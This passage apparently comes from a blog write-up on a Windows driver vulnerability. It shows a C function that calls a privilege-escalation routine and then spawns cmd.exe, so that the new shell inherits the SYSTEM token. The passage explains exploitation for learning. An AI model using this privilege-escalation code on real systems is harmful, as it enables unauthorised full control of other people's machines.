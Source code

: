 If we want to pop into a CMD shell with SYSTEM privileges, it’s quite easy. Just start a new cmd.exe process :) It will inherit the token of the parent, therefore it will have the same privileges.  

```c
BOOL GetSystemCMD(WINDOWS_VERSION WinVersion) {
	STARTUPINFOA StartupInfo;
	PROCESS_INFORMATION ProcessInformation;

	ZeroMemory(&StartupInfo, sizeof(StartupInfo));
	ZeroMemory(&ProcessInformation, sizeof(ProcessInformation));

	StartupInfo.cb = sizeof(StartupInfo);

	if (!GetSystem(0, WinVersion)) {
		PRINT_ERROR(L"[-] Couldn't get system..\n");
		return FALSE;
	}

	if (!CreateProcessA("C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, FALSE, 0, NULL, NULL, &StartupInfo, &ProcessInformation)) {
		PRINT_ERROR(L"[-] Couldn't create cmd.exe process!\n");
		return FALSE;
	}
	WaitForSingleObject(ProcessInformation.hProcess, INFINITE);
	CloseHandle(ProcessInformation.hThread);
	CloseHandle(ProcessInformation.hProcess);

	return TRUE;
}
```

And when we run it, we get a system shell :)  
![Get System](/images/driver_vulnerability/GetSystemCmd.png)  
